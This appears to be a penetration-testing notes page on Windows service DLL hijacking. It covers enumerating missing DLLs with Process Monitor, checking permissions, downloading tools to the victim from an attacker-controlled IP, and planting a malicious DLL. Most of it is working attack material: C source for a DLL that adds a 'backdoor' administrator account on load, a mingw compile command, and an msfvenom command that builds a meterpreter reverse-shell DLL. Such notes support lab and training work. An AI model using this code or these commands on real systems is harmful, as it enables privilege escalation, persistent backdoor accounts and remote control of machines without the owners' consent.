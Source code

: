 ```yaml
---
description: DLL Hijacking is a highly effective method.
---
```


# Service DLL Hijacking

## Finding DLL's on running service.

We can use Process Monitor, or any monitoring tool that is on the system to enumerate DLL's on a running service. _**We may have to import our own process monitor binary to system if there is none under permissions we can use!**_

_<mark style="color:red;">**NOTE:**</mark>_ If the DLL list is empty, we should restart the service and view the start up DLLs.

<figure><img src="../../../.gitbook/assets/Screenshot_20231009_180645 (1).png" alt=""><figcaption><p>XFreeRDP - Procmon w/ DLL Name Filter is Empty.</p></figcaption></figure>

### Restarting DLL Service

```
PS> Restart-Service BetaService
```

<figure><img src="../../../.gitbook/assets/Screenshot_20231009_181914.png" alt=""><figcaption><p>Viewing Loaded DLL's after executing Restart-Service</p></figcaption></figure>

## Enumerating Permissions

Once we've enumerated the installed service and found one of interest, we can view the permissions.  We can use tools like: _**icacls**_ Windows utility or the PowerShell Cmdlet _**Get-ACL**_

| MASK | PERMISSIONS             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |





## Enumerating DLL's ProcessExplorer

If we have access to RDP, we can use SysInternals' ProcessExplorer to quickly find Dlls.

{% embed url="https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer" %}

### Download ProcessExplorer & ProcessMonitor to Victim

```powershell
PS> iwr -uri http://192.168.45.246:8000/procexp64.exe -OutFile procexp64.exe
```

```powershell
PS> iwr -uri http://192.168.45.246:8000/Procmon64.exe -OutFile Procmon64.exe
```

###

### Search for missing DLL's

Launch Process Monitor and set a filter for result “<mark style="color:red;">**NAME NOT FOUND**</mark>”.

##

## Create Malicious DLL

There are many types of malicios DLL's we can execute on our victim. For more information view: Malware Development

#### Adds Administrative User w/ Net Command

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user backdoor password123! /add");
  	    i = system ("net localgroup administrators backdoor /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

#### Compile for Windows x64

**--shared** to specify that we want to build a DLL.

```
x86_64-w64-mingw32-gcc malicous-dll.c --shared -o myDll.dll
```

#### We then transfer the DLL to our victim and save it at the location it's being called from.

<pre><code><strong>PS> $env:path
</strong></code></pre>



### Create malicious DLL MsfVenom

Instead of adding a user, we may want to add a reverse shell instead.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil-meterpreter64.dll
```
